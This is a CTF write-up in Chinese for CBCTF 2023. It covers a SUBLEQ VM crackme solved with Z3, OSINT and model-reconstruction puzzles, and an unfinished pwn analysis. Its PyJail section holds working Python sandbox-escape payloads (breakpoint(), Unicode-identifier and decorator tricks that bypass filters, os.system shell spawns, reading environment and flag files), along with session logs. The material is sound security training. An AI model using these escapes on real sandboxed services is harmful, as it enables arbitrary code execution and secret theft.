0395:        SUBLEQ        [382]        [4]                ; Taken
0398:        SUBLEQ        [382]        [4]                ; Taken
0401:        SUBLEQ        [382]        [5]                ; Taken
0404:        SUBLEQ        [382]        [5]                ; Taken
0407:        SUBLEQ        [382]        [5]                ; Taken
0410:        SUBLEQ        [382]        [5]                ; Taken
0413:        SUBLEQ        [382]        [5]                ; Taken
0416:        SUBLEQ        [382]        [6]                ; Taken
0419:        SUBLEQ        [382]        [6]                ; Taken
0422:        SUBLEQ        [382]        [7]                ; Taken
0425:        SUBLEQ        [382]        [7]                ; Taken
0428:        SUBLEQ        [382]        [7]                ; Taken
0431:        SUBLEQ        [382]        [7]                ; Taken
0434:        SUBLEQ        [382]        [7]                ; Taken
0437:        SUBLEQ        [382]        [7]                ; Taken
0440:        SUBLEQ        [382]        [7]                ; Taken
0443:        SUBLEQ        [382]        [8]                ; Taken
0446:        SUBLEQ        [382]        [8]                ; Taken
0449:        SUBLEQ        [382]        [8]                ; Taken
0452:        SUBLEQ        [382]        [8]                ; Taken
0455:        SUBLEQ        [382]        [8]                ; Taken
0458:        SUBLEQ        [382]        [8]                ; Taken
0461:        ZJMP        [0]                @465        ; Taken
0465:        ZJMP        [0]                @470        ; Taken
0470:        ZJMP        [465]                        ; Taken
0473:        SUBLEQ        [465]        [382]                ; Not taken
0476:        ZJMP        [466]                        ; Taken
0479:        SUBLEQ        [466]        [461]                ; Not taken
0482:        SUBLEQ        [465]        [466]        @488        ; Taken
0488:        ZJMP        [466]                        ; Taken
0491:        SUBLEQ        [466]        [465]        @497        ; Taken
0497:        ZJMP        [0]                @501        ; Taken
```

可以看到，这个块的校验是比对 `[4]*5 + [5]*5 + [6]*2 + [7]*7 + [8]*6 == -[461]`。

强制 taken 所有分支可以发现所有的块均有着一样的结构。那么又是重复劳动了。编写脚本生成约束，使用 Z3 求解。

生成约束需要三步：解析字节码、生成约束、回填实际目标值。

解析字节码：

```c
pc = 0;
do {
    op_2 = g_bytecode[pc + 1];
    op_1 = g_bytecode[pc];
    loc = g_bytecode[pc + 2];
    pc += 3;
    if (op_2 >= 0) {
        if (op_1 >= 0) {
            if (op_2 == op_1) {
                fprintf(stderr, "\n");
            } else {
                fprintf(stderr, "%d,", op_1);
            }
            g_bytecode[op_2] -= g_bytecode[op_1];
            if (g_bytecode[op_2] <= 0) {
                pc = loc;
            } else {
                pc = loc;
            }
        } else {
            fprintf(stderr, "\n");
            g_bytecode[op_2] = getchar();
        }
    } else {
        fprintf(stderr, "\n");
        putchar(g_bytecode[op_1]);
    }
} while (pc < 4216);
```

得到具有如下结构的输出：

```
4,4,4,4,4,5,5,5,5,5,6,6,7,7,7,7,7,7,7,8,8,8,8,8,8,


382,
461,466,
465,
```

第一行就是该块依赖的输入，第 5 行的第 1 个值就是目标值。可以编写 Python 脚本进一步解析。

求解：

```python
import typing

import z3
from pwn import *

N_UNKNOWNS = 36
UNK_WIDTH = 32

x = [z3.BitVec(f"x_{i}", UNK_WIDTH) for i in range(N_UNKNOWNS)]

solver = z3.Solver()

bytecode: list[int]
with open("./TIVM-Mmmmmultiply/bytecode.py", "rt") as f:
    exec(f.read())

with open("./TIVM-Mmmmmultiply/trace3_inputgroups.txt", "rt") as f:
    lines = list(filter(lambda l: len(l.strip()) != 0, f.readlines()))

for i in range(0, len(lines), 4):
    inputs_ln, _, target_ln, _ = lines[i : (i + 4)]
    inputs = inputs_ln.split(",")[:-1]  # remove trailing comma
    inputs_i = map(int, inputs)
    inputs_dict = defaultdict(int)
    for i in inputs_i:
        inputs_dict[i - 3] += 1
    target = int(target_ln.split(",")[0])
    target_val = bytecode[target]

    constraint = 0
    for i, v in inputs_dict.items():
        constraint += x[i] * v
    constraint = constraint == z3.BitVecVal(-target_val, UNK_WIDTH)
    solver.add(constraint)
    info(f"{constraint}")

if solver.check() != z3.sat:
    error("Unsat")
    exit(1)

result: list[typing.Any] = [0] * N_UNKNOWNS
m = solver.model()
for d in m.decls():
    result[int(d.name()[2:])] = m[d].as_long() & 0xFF  # type: ignore

success("".join(map(chr, result)))
```

运行结果：

```
(pwnenv) PS D:\Workspace\rev\cbctf2023> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/cbctf2023/TIVM-Mmmmmultiply/sol.py

[*] 2061 == 0 + x_1*5 + x_2*5 + x_3*2 + x_4*7 + x_5*6
[*] 1861 == 0 + x_0*5 + x_1*1 + x_2*5 + x_3*4 + x_4*6 + x_5*3     
[*] 1749 == 0 + x_0*1 + x_1*1 + x_2*6 + x_3*4 + x_4*2 + x_5*6
[*] 1809 == 0 + x_0*7 + x_1*5 + x_2*3 + x_3*4 + x_4*5 + x_5*1     
[*] 960 == 0 + x_0*1 + x_1*4 + x_2*4 + x_3*2 + x_4*1 + x_5*1
[*] 1536 == 0 + x_0*6 + x_1*2 + x_3*4 + x_4*6 + x_5*2
[*] 2541 == 0 + x_7*5 + x_8*5 + x_9*2 + x_10*7 + x_11*6
[*] 2277 == 0 + x_6*5 + x_7*1 + x_8*5 + x_9*4 + x_10*6 + x_11*3
[*] 2057 == 0 + x_6*1 + x_7*1 + x_8*6 + x_9*4 + x_10*2 + x_11*6   
[*] 2306 == 0 + x_6*7 + x_7*5 + x_8*3 + x_9*4 + x_10*5 + x_11*1
[*] 1294 == 0 + x_6*1 + x_7*4 + x_8*4 + x_9*2 + x_10*1 + x_11*1
[*] 1850 == 0 + x_6*6 + x_7*2 + x_9*4 + x_10*6 + x_11*2
[*] 2605 == 0 + x_13*5 + x_14*5 + x_15*2 + x_16*7 + x_17*6        
[*] 2441 ==
    0 + x_12*5 + x_13*1 + x_14*5 + x_15*4 + x_16*6 + x_17*3       
[*] 1993 ==
    0 + x_12*1 + x_13*1 + x_14*6 + x_15*4 + x_16*2 + x_17*6       
[*] 2609 ==
    0 + x_12*7 + x_13*5 + x_14*3 + x_15*4 + x_16*5 + x_17*1       
[*] 1356 ==
    0 + x_12*1 + x_13*4 + x_14*4 + x_15*2 + x_16*1 + x_17*1       
[*] 2084 == 0 + x_12*6 + x_13*2 + x_15*4 + x_16*6 + x_17*2        
[*] 2444 == 0 + x_19*5 + x_20*5 + x_21*2 + x_22*7 + x_23*6        
[*] 2268 ==
    0 + x_18*5 + x_19*1 + x_20*5 + x_21*4 + x_22*6 + x_23*3       
[*] 2057 ==
    0 + x_18*1 + x_19*1 + x_20*6 + x_21*4 + x_22*2 + x_23*6       
[*] 2057 ==
    0 + x_18*7 + x_19*5 + x_20*3 + x_21*4 + x_22*5 + x_23*1       
[*] 1110 ==
    0 + x_18*1 + x_19*4 + x_20*4 + x_21*2 + x_22*1 + x_23*1       
[*] 1784 == 0 + x_18*6 + x_19*2 + x_21*4 + x_22*6 + x_23*2
[*] 2135 == 0 + x_25*5 + x_26*5 + x_27*2 + x_28*7 + x_29*6        
[*] 2043 ==
    0 + x_24*5 + x_25*1 + x_26*5 + x_27*4 + x_28*6 + x_29*3       
[*] 1497 ==
    0 + x_24*1 + x_25*1 + x_26*6 + x_27*4 + x_28*2 + x_29*6       
[*] 2318 ==
    0 + x_24*7 + x_25*5 + x_26*3 + x_27*4 + x_28*5 + x_29*1       
[*] 1198 ==
    0 + x_24*1 + x_25*4 + x_26*4 + x_27*2 + x_28*1 + x_29*1       
[*] 1734 == 0 + x_24*6 + x_25*2 + x_27*4 + x_28*6 + x_29*2
[*] 2137 == 0 + x_31*5 + x_32*5 + x_33*2 + x_34*7 + x_35*6        
[*] 2167 ==
    0 + x_30*5 + x_31*1 + x_32*5 + x_33*4 + x_34*6 + x_35*3       
[*] 1794 ==
    0 + x_30*1 + x_31*1 + x_32*6 + x_33*4 + x_34*2 + x_35*6       
[*] 2122 ==
    0 + x_30*7 + x_31*5 + x_32*3 + x_33*4 + x_34*5 + x_35*1       
[*] 920 ==
    0 + x_30*1 + x_31*4 + x_32*4 + x_33*2 + x_34*1 + x_35*1       
[*] 1952 == 0 + x_30*6 + x_31*2 + x_33*4 + x_34*6 + x_35*2        
[+] CBCTF{Beat_mat_in_36_words_8a1d20fc}
(pwnenv) PS D:\Workspace\rev\cbctf2023>
```

`CBCTF{Beat_mat_in_36_words_8a1d20fc}`

## Misc

### Real_Signin | Done


`CBCTF{We1c0m3_t0_CBCTF_$njoy!!!}`

### 大地之母 | Done

> 请找到这张图片的作者，flag 为 CBCTF{md5(作者账号名)}
> 
> * Hint 1: md5 为 32 位小写 作者名全大写无空格，英文字母
> * Hint 2: 图片随手截的
> * Hint 3: 不涉及任何 misc 操作，图片未做任何处理

珠穆朗玛峰，但是不知道是谁拍的

第二张图看上去是原图，云的特征、积雪的纹理和太阳位置都对的上。但是作者名字的任意组合 MD5 以后不是 flag

题目的图右下角有一个指南针图标，应该是 Google Map Street View。

确实能找到，而且这个作者 ID 确实是全大写。

<https://www.google.com/maps/@27.9881206,86.9249751,3a,75y,358.65h,96.72t/data=!3m8!1e1!3m6!1sAF1QipPfHBU0qdUcE_thnezL1yHZGECpWIPs7gJqwx-n!2e10!3e11!6shttps:%2F%2Flh5.googleusercontent.com%2Fp%2FAF1QipPfHBU0qdUcE_thnezL1yHZGECpWIPs7gJqwx-n%3Dw203-h100-k-no-pi0-ya212.3591-ro0-fo100!7i14000!8i7000!5m1!1e4?entry=ttu>

<https://cyberchef.org/#recipe=MD5()&input=RUxTRU1JR1VFTA>

`CBCTF{cfaf23fdff59684b6be6cef94a231e51}`

### Just Painting's Revenge | Done

> 想必你们都看到了上次赛博杯 JBN 画的 flag，这次也是如此。不过，JBN 为了挽回他的颜面，偷偷把自己从代码中删掉了。。。
>
> * Hint 1: 你了解 CNN 吗
> * Hint 2: 或许去看看 Just Painting 会给你很大的帮助
> * Hint 3: 你知道如何查看 pth 模型结构吗

解包 zip，得到 pth 文件和不全的训练脚本。

```python
import torch
...
import cv2

class JBN(nn.Module):
    '''
        JBN cruelly deleted all the content here. Maybe you can restore it, in many way.
    '''

def watch_flag(img):
    ...

jbn = JBN()
g_optimizer = torch.optim.Adam(jbn.parameters(), lr=0.001)
min_loss = float('inf')

for epoch in range(10):
    ...
```

显然，如果稍微接触过一点 PyTorch 框架的话，应该就知道每个 pth 文件解析了以后是一个 OrderedDict，每个可训练层对应一至多个 key（如果你用 tf 就不知道了，哈哈）。那么我们直接把所有层参数的 shape 打印出来。

```
m["CBCTFb39e605e3c5989d3.0.weight"].shape
torch.Size([256, 100])
m["CBCTFb39e605e3c5989d3.0.bias"].shape
torch.Size([256])
m["CBCTFb39e605e3c5989d3.2.weight"].shape
torch.Size([512, 256])
m["CBCTFb39e605e3c5989d3.2.bias"].shape
torch.Size([512])
m["CBCTFb39e605e3c5989d3.4.weight"].shape
torch.Size([50100, 512])
m["CBCTFb39e605e3c5989d3.4.bias"].shape
torch.Size([50100])
```

显然 2 个 dim 的层最常见的就是 `torch.nn.Linear`。从键的名字来看，模型创建时用了 `torch.nn.Sequential`。这里的 hint 1 有点误导性，这个模型描述的显然不是一个 CNN，因为 CNN 每层权重至少比全连接层要多一或多个 dim（看你的卷积维数）来存放卷积核，每个 dim 的大小对应了核 dim 大小。

那么我们不难写出重建模型的代码，其中为了确定图像的大小需要几次尝试。

```python
import cv2
import numpy as np
import torch as t
import torch.nn as nn
from PIL import Image
from torchsummary import summary

class Model(nn.Module):
    def __init__(self):
        super(Model, self).__init__()
        self.CBCTFb39e605e3c5989d3 = nn.Sequential(
            nn.Linear(100, 256),
            nn.ReLU(),
            nn.Linear(256, 512),
            nn.ReLU(),
            nn.Linear(512, 50100),
            nn.Tanh(),
        )

    def forward(self, x: t.Tensor):
        x = self.CBCTFb39e605e3c5989d3(x)
        x = x.view(-1, 300, 167)
        return x

m = Model()
m.load_state_dict(t.load("just_painting_revenge/zip_extracted/jbn.pth"))
summary(m, (1, 100), 1, device="cpu")

m.eval()
with t.no_grad():
    random_noise = t.rand(1, 100)
    pred: t.Tensor = m(random_noise)
    pred_np: np.ndarray = pred.cpu().squeeze(0).numpy()
    pred_np = ((pred_np + 1.0) / 2.0 * 255.0).astype(np.uint8)
    print(pred_np.shape)
    pred_img = Image.fromarray(pred_np)
    pred_img = pred_img.transpose(Image.ROTATE_270)
    pred_img = pred_img.transpose(Image.FLIP_LEFT_RIGHT)
    pred_img.save("just_painting_revenge/pred.png")
```


读出后半段 flag 为 `15840fd2ef79519f}`。与前半段拼接即为完整 flag。

`CBCTF{b39e605e3c5989d315840fd2ef79519f}`

## PyJail

### Level 1 | Done


```python
import os
print(os.system("cat /proc/self/environ"))
```

`CBCTF{c4d638f4-0129-4225-92c8-94d84c733150}`

### Level 2 | Done

```
PS D:\Workspace\rev\cbctf2023\rev_pwn> ncat training.0rays.club 10100

 _     _______     _______ _       ____
| |   | ____\ \   / / ____| |     |___ \
| |   |  _|  \ \ / /|  _| | |       __) |
| |___| |___  \ V / | |___| |___   / __/
|_____|_____|  \_/  |_____|_____| |_____|


Welcome to the JBNRZ's pyjail
Enter your expression and I will evaluate it for you.
Example:
  input: 1 + 1
  Result: 2
> eval("__import__('os').system('cat /flag')")
CBCTF{cc7576ab-5bc2-4da0-a15d-8209567d64a4}
Result: 0


Ncat: 你的主机中的软件中止了一个已建立的连接。 .
PS D:\Workspace\rev\cbctf2023\rev_pwn>
```

`CBCTF{cc7576ab-5bc2-4da0-a15d-8209567d64a4}`

### Level 3 | Done

```
PS D:\Workspace\rev\cbctf2023\rev_pwn> ncat training.0rays.club 10065

 _     _______     _______ _       _____
| |   | ____\ \   / / ____| |     |___ /
| |   |  _|  \ \ / /|  _| | |       |_ \
| |___| |___  \ V / | |___| |___   ___) |
|_____|_____|  \_/  |_____|_____| |____/


Welcome to the JBNRZ's pyjail
Enter your expression and I will evaluate it for you.
Example:
  input: 1 + 1
  Result: 2
> breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) import os
(Pdb) os.system("cat /flag")
CBCTF{2c19a4b0-49d9-498f-bbd1-94de85b4f7a9}
0
(Pdb)
PS D:\Workspace\rev\cbctf2023\rev_pwn>
```

`CBCTF{2c19a4b0-49d9-498f-bbd1-94de85b4f7a9}`

### Level 4 | Done

```
PS D:\Workspace\rev\cbctf2023\rev_pwn> ncat training.0rays.club 10025

 _     _______     _______ _       _  _
| |   | ____\ \   / / ____| |     | || |
| |   |  _|  \ \ / /|  _| | |     | || |_
| |___| |___  \ V / | |___| |___  |__   _|
|_____|_____|  \_/  |_____|_____|    |_|


Welcome to the JBNRZ's pyjail
Enter your expression and I will evaluate it for you.
Example:
  input: 1 + 1
  Result: 2
> breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) import os
(Pdb) os.system("cat /flag")
CBCTF{b5a09d3a-c21f-419f-aebd-f44ff168b934}
0
(Pdb)
PS D:\Workspace\rev\cbctf2023\rev_pwn>
```

`CBCTF{b5a09d3a-c21f-419f-aebd-f44ff168b934}`

### Level 5 | Done

```
PS D:\Workspace\rev\cbctf2023\rev_pwn> ncat training.0rays.club 10092

 _     _______     _______ _       ____
| |   | ____\ \   / / ____| |     | ___|
| |   |  _|  \ \ / /|  _| | |     |___ \
| |___| |___  \ V / | |___| |___   ___) |
|_____|_____|  \_/  |_____|_____| |____/


Welcome to the JBNRZ's pyjail
Enter your expression and I will evaluate it for you.
Example:
  input: 1 + 1
  Result: 2
> breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) import os
(Pdb) os.system("cat /flag")
CBCTF{82867d1d-9638-4331-ad63-e3ab1bd3164e}
0
(Pdb)
PS D:\Workspace\rev\cbctf2023\rev_pwn>
```

`CBCTF{82867d1d-9638-4331-ad63-e3ab1bd3164e}`

### Level 6 | Done

不能出现 ASCII 字母，但是可以使用 Python UTF-8 Mode

背景见 <https://blog.pepsipu.com/posts/albatross-redpwnctf>

<https://lingojam.com/ItalicTextGenerator>

```python
from pwn import *

with remote("training.0rays.club", 10014) as r:
    r.sendlineafter(b"> ", "𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()".encode("utf-8"))
    r.interactive()
```

```
(pwnenv) PS D:\Workspace\rev\cbctf2023> & d:/Workspace/pwnenv/Scripts/python.exe d:/Workspace/rev/cbctf2023/pyjails/sol_6.py        
[x] Opening connection to training.0rays.club on port 10014
[x] Opening connection to training.0rays.club on port 10014: Trying 123.139.136.52
[+] Opening connection to training.0rays.club on port 10014: Done
[*] Switching to interactive mode
--Return--
> <string>(1)<module>()->None
(Pdb) import os
(Pdb) os.system("cat /flag")
CBCTF{6ea9df1f-9958-4178-803b-f12e0044201d}
0
(Pdb) [*] Interrupted
[*] Closed connection to training.0rays.club port 10014
(pwnenv) PS D:\Workspace\rev\cbctf2023>
```

`CBCTF{6ea9df1f-9958-4178-803b-f12e0044201d}`

### Level 8 | Done

>

Python 2，出了但搞不懂怎么出的。他会把输入的字符串 eval 了，我也不知道咋回事

```bash
PS D:\Workspace\rev\cbctf2023> ncat training.0rays.club 10088
__import__("os").system("/bin/sh")
id
uid=1000 gid=1000 groups=1000
ls -la /
total 64
drwxr-xr-x   1 root root 4096 Jan  1 05:49 .
drwxr-xr-x   1 root root 4096 Jan  1 05:49 ..
-rwxr-xr-x   1 root root    0 Jan  1 05:49 .dockerenv
lrwxrwxrwx   1 root root    7 Nov 28 02:03 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 15  2020 boot
drwxr-xr-x   5 root root  340 Jan  1 05:49 dev
drwxr-xr-x   1 root root 4096 Jan  1 05:49 etc
-rw-r--r--   1 root root   44 Jan  1 05:49 flag
drwxrwxrwx   1 root root 4096 Dec 11 08:35 home
lrwxrwxrwx   1 root root    7 Nov 28 02:03 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Nov 28 02:03 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Nov 28 02:03 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Nov 28 02:03 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Nov 28 02:03 media
drwxr-xr-x   2 root root 4096 Nov 28 02:03 mnt
drwxr-xr-x   2 root root 4096 Nov 28 02:03 opt
dr-xr-xr-x 984 root root    0 Jan  1 05:49 proc
drwx------   2 root root 4096 Nov 28 02:06 root
drwxr-xr-x   1 root root 4096 Jan  1 05:49 run
lrwxrwxrwx   1 root root    8 Nov 28 02:03 sbin -> usr/sbin       
drwxr-xr-x   2 root root 4096 Nov 28 02:03 srv
-rwxr-xr-x   1 root root  127 Feb 22  2023 start.sh
dr-xr-xr-x  13 root root    0 Jan  1 05:49 sys
drwxrwxrwt   1 root root 4096 Dec 11 09:00 tmp
drwxr-xr-x   1 root root 4096 Nov 28 02:03 usr
drwxr-xr-x   1 root root 4096 Nov 28 02:06 var
cat /flag
CBCTF{fb53bb8f-49f9-40ab-a201-6920d214ed12}
PS D:\Workspace\rev\cbctf2023>
```

`CBCTF{fb53bb8f-49f9-40ab-a201-6920d214ed12}`

### Level 9 | Done

```
PS D:\Workspace\rev\cbctf2023> ncat training.0rays.club 10080

 _     _______     _______ _        ___
| |   | ____\ \   / / ____| |      / _ \
| |   |  _|  \ \ / /|  _| | |     | (_) |
| |___| |___  \ V / | |___| |___   \__, |
|_____|_____|  \_/  |_____|_____|    /_/


=================================================================================================
==           Welcome to the JBNRZ's pyjail level9,It's AST challenge                       ==
==           Menu list:                                                                        ==
==             [G]et the blacklist AST                                                         ==
==             [E]xecute the python code                                                       ==
==             [Q]uit jail challenge                                                           ==
=================================================================================================
G
=================================================================================================
==        Black List AST:                                                                      ==
==                       'Import,ImportFrom,Call,Expr,Add,Lambda,FunctionDef,AsyncFunctionDef  ==
==                        Sub,Mult,Div,Del'                                                    ==
=================================================================================================


Ncat: 你的主机中的软件中止了一个已建立的连接。 .
PS D:\Workspace\rev\cbctf2023>
```

过滤了方法定义，但是没有过滤类定义。尝试构造装饰后的类进行绕过。

```python
@exec
@input
class X:
    pass

# It desugars to...
X = input(X)
X = exec(X)

# Then:
__import__("os").system("/bin/sh")
```

```
PS D:\Workspace\rev\cbctf2023> ncat training.0rays.club 10080

 _     _______     _______ _        ___
| |   | ____\ \   / / ____| |      / _ \
| |   |  _|  \ \ / /|  _| | |     | (_) |
| |___| |___  \ V / | |___| |___   \__, |
|_____|_____|  \_/  |_____|_____|    /_/


=================================================================================================
==           Welcome to the JBNRZ's pyjail level9,It's AST challenge                       ==
==           Menu list:                                                                        ==
==             [G]et the blacklist AST                                                         ==
==             [E]xecute the python code                                                       ==
==             [Q]uit jail challenge                                                           ==
=================================================================================================
E
Pls input your code: (last line must contain only --CBCTF)
@exec
@input
class X:
    pass
--CBCTF
check is passed!now the result is:
<class '__main__.X'>__import__("os").system("/bin/sh")
id
uid=1000 gid=1000 groups=1000
ls -la /
total 64
drwxr-xr-x    1 root root 4096 Jan  1 05:28 .
drwxr-xr-x    1 root root 4096 Jan  1 05:28 ..
-rwxr-xr-x    1 root root    0 Jan  1 05:28 .dockerenv
lrwxrwxrwx    1 root root    7 Nov 28 02:03 bin -> usr/bin
drwxr-xr-x    2 root root 4096 Apr 15  2020 boot
drwxr-xr-x    5 root root  340 Jan  1 05:28 dev
drwxr-xr-x    1 root root 4096 Jan  1 05:28 etc
-rw-r--r--    1 root root   44 Jan  1 05:28 flag
drwxrwxrwx    1 root root 4096 Dec 11 09:26 home
lrwxrwxrwx    1 root root    7 Nov 28 02:03 lib -> usr/lib
lrwxrwxrwx    1 root root    9 Nov 28 02:03 lib32 -> usr/lib32
lrwxrwxrwx    1 root root    9 Nov 28 02:03 lib64 -> usr/lib64
lrwxrwxrwx    1 root root   10 Nov 28 02:03 libx32 -> usr/libx32
drwxr-xr-x    2 root root 4096 Nov 28 02:03 media
drwxr-xr-x    2 root root 4096 Nov 28 02:03 mnt
drwxr-xr-x    2 root root 4096 Nov 28 02:03 opt
dr-xr-xr-x 1020 root root    0 Jan  1 05:28 proc
drwx------    2 root root 4096 Nov 28 02:06 root
drwxr-xr-x    1 root root 4096 Jan  1 05:28 run
lrwxrwxrwx    1 root root    8 Nov 28 02:03 sbin -> usr/sbin
drwxr-xr-x    2 root root 4096 Nov 28 02:03 srv
-rwxr-xr-x    1 root root  127 Feb 22  2023 start.sh
dr-xr-xr-x   13 root root    0 Jan  1 05:28 sys
drwxrwxrwt    1 root root 4096 Dec 11 08:41 tmp
drwxr-xr-x    1 root root 4096 Nov 28 02:03 usr
drwxr-xr-x    1 root root 4096 Nov 28 02:06 var
cat /flag
CBCTF{501cc578-2474-4af2-bb9c-facd6225d04a}
PS D:\Workspace\rev\cbctf2023>
```

`CBCTF{501cc578-2474-4af2-bb9c-facd6225d04a}`

### Level 10 | Done

```
PS D:\Workspace\rev\cbctf2023> ncat training.0rays.club 10076

 _     _______     _______ _       _  ___
| |   | ____\ \   / / ____| |     / |/ _ \
| |   |  _|  \ \ / /|  _| | |     | | | | |
| |___| |___  \ V / | |___| |___  | | |_| |
|_____|_____|  \_/  |_____|_____| |_|\___/


It's so easy challenge!
Seems flag into the dir()
> breakpoint()
--Return--
> <string>(1)<module>()->None
(Pdb) import dis
(Pdb) import load_flag
(Pdb) dis.dis(load_flag)
Disassembly of flag_level10:
Disassembly of __init__:
 13           0 LOAD_GLOBAL              0 (setattr)
              2 LOAD_FAST                0 (self)
              4 LOAD_CONST               1 ('flag_level10')
              6 LOAD_GLOBAL              1 (secert_flag)
              8 LOAD_FAST                1 (flag)
             10 CALL_FUNCTION            1
             12 CALL_FUNCTION            3
             14 POP_TOP
             16 LOAD_CONST               0 (None)
             18 RETURN_VALUE


Disassembly of get_flag:
 17           0 LOAD_GLOBAL              0 (open)
              2 LOAD_CONST               1 ('/flag')
              4 LOAD_CONST               2 ('r')
              6 CALL_FUNCTION            2
              8 SETUP_WITH              26 (to 36)
             10 STORE_FAST               0 (f)

 18          12 LOAD_GLOBAL              1 (flag_level10)
             14 LOAD_FAST                0 (f)
             16 LOAD_METHOD              2 (read)
             18 CALL_METHOD              0
             20 CALL_FUNCTION            1
             22 POP_BLOCK
             24 ROT_TWO
             26 BEGIN_FINALLY
             28 WITH_CLEANUP_START
             30 WITH_CLEANUP_FINISH
             32 POP_FINALLY              0
             34 RETURN_VALUE
        >>   36 WITH_CLEANUP_START
             38 WITH_CLEANUP_FINISH
             40 END_FINALLY
             42 LOAD_CONST               0 (None)
             44 RETURN_VALUE

Disassembly of secert_flag:
Disassembly of __repr__:
  4           0 LOAD_CONST               1 ('DELETED')
              2 RETURN_VALUE

Disassembly of __str__:
  7           0 LOAD_CONST               1 ('DELETED')
              2 RETURN_VALUE


(Pdb) open("/flag", "rt").read()
'CBCTF{3f828e1c-4161-4eab-baca-998cafe6a155}\n'
(Pdb)
PS D:\Workspace\rev\cbctf2023>
```

`CBCTF{3f828e1c-4161-4eab-baca-998cafe6a155}`

---

## UNSOLVED

### Pwn

#### reg | STUCK

> 什么，没有输出函数？

没有 canary

```
[*] '/mnt/d/Workspace/rev/cbctf2023/reg/reg-/reg'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  sandbox();
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  func();
  return 0;
}
```

用 BPF 对 syscall 做了过滤。

```c
void __fastcall sandbox()
{
  struct sock_fprog fprog; // [rsp+0h] [rbp-50h] BYREF
  struct sock_filter filters[7]; // [rsp+10h] [rbp-40h] BYREF

  filters[0].code = 32;
  filters[0].jt = 0;
  filters[0].jf = 0;
  filters[0].k = 4;
  filters[1].code = 21;
  filters[1].jt = 0;
  filters[1].jf = 3;
  filters[1].k = 0xC000003E;
  filters[2].code = 32;
  filters[2].jt = 0;
  filters[2].jf = 0;
  filters[2].k = 0;
  filters[3].code = 21;
  filters[3].jt = 0;
  filters[3].jf = 2;
  filters[3].k = 59;
  filters[4].code = 21;
  filters[4].jt = 0;
  filters[4].jf = 1;
  filters[4].k = 322;
  filters[5].code = 6;
  filters[5].jt = 0;
  filters[5].jf = 0;
  filters[5].k = 0;
  filters[6].code = 6;
  filters[6].jt = 0;
  filters[6].jf = 0;
  filters[6].k = 0x7FFF0000;
  fprog.len = 7;
  fprog.filter = filters;
  prctl(PR_SET_NO_NEW_PRIVS, 1LL, 0LL, 0LL, 0LL);
  prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &fprog);
}
```

func 中使用了未初始化的的栈空间，可能有残留数据。

```c
void __fastcall func()
{
  int v0; // [rsp+1Ch] [rbp-104h] BYREF
  __int64 a1[32]; // [rsp+20h] [rbp-100h] BYREF

  while ( 1 )
  {
    __isoc99_scanf("%d", &v0);
    if ( v0 == 3 )
      break;
    if ( v0 <= 3 )
    {
      if ( v0 == 1 )
      {
        set(a1);
      }
      else if ( v0 == 2 )
      {
        add(a1);
      }
    }
  }
}
```

func 的栈布局：

```
00007FFEF7B4D7B8  000000010000C000  ; <- int32_t v0; int32_t padding_1;
00007FFEF7B4D7C0  0000000000198000  ; <- uint64_t a1[32]; a1[0]
00007FFEF7B4D7C8  000000000000000C  
00007FFEF7B4D7D0  0000000000000040  
00007FFEF7B4D7D8  0000000000000010  
00007FFEF7B4D7E0  0000000000000040  
00007FFEF7B4D7E8  000000000000000C  
00007FFEF7B4D7F0  0000000000000000  
00007FFEF7B4D7F8  0000000100000000  
00007FFEF7B4D800  0000000000000002  
00007FFEF7B4D808  8000000000000006  
00007FFEF7B4D810  0000000000000008  
00007FFEF7B4D818  00007FFEF7B4D870  [stack]:00007FFEF7B4D870
00007FFEF7B4D820  00007FFEF7B4D830  [stack]:00007FFEF7B4D830
00007FFEF7B4D828  947464C5BF6D2300  
00007FFEF7B4D830  0000000000000000  
00007FFEF7B4D838  0000000000000002  
00007FFEF7B4D840  00007FFEF7B4D870  [stack]:00007FFEF7B4D870
00007FFEF7B4D848  00007F901A50D6A0  libc.so.6:_IO_2_1_stderr_
00007FFEF7B4D850  0000000000000000  
00007FFEF7B4D858  00007F901A3813F5  libc.so.6:_IO_default_setbuf+45
00007FFEF7B4D860  000000000000000D  
00007FFEF7B4D868  00007F901A50D6A0  libc.so.6:_IO_2_1_stderr_
00007FFEF7B4D870  0000000000000000  
00007FFEF7B4D878  0000000000000000  
00007FFEF7B4D880  00007F901A509600  libc.so.6:_IO_file_jumps
00007FFEF7B4D888  00007F901A37D5AD  libc.so.6:_IO_file_setbuf+D
00007FFEF7B4D890  00007F901A50D6A0  libc.so.6:_IO_2_1_stderr_
00007FFEF7B4D898  00007F901A37457F  libc.so.6:_IO_setbuffer+BF
00007FFEF7B4D8A0  0000014201000015  
00007FFEF7B4D8A8  0000000000000000  
00007FFEF7B4D8B0  00007FFEF7B4D8E0  [stack]:00007FFEF7B4D8E0
00007FFEF7B4D8B8  00007FFEF7B4D9F8  [stack]:00007FFEF7B4D9F8  ; <- a1[31]; RBP
00007FFEF7B4D8C0  00007FFEF7B4D8E0  [stack]:00007FFEF7B4D8E0  ; <- RBP
00007FFEF7B4D8C8  0000563BB45E6505  main+6C  ; <- ret addr
```

在多次运行中相对偏移始终保持不变。

set 和 add 都存在 off-by-1，能够覆盖返回地址。

```c
void __fastcall set(__int64 *a1)
{
  __int64 v1; // [rsp+10h] [rbp-10h] BYREF
  int v2; // [rsp+18h] [rbp-8h] BYREF
  int v3; // [rsp+1Ch] [rbp-4h] BYREF

  __isoc99_scanf("%d%d%lld", &v3, &v2, &v1);
  if ( (unsigned int)v3 <= 0x20 )
  {
    if ( v2 == 1 )
    {
      a1[v3] = v1;
    }
    else if ( v2 == 2 && (unsigned __int64)v1 <= 0x20 )
    {
      a1[v3] = a1[v1];
    }
  }
}

void __fastcall add(__int64 *a1)
{
  __int64 v1; // [rsp+10h] [rbp-10h] BYREF
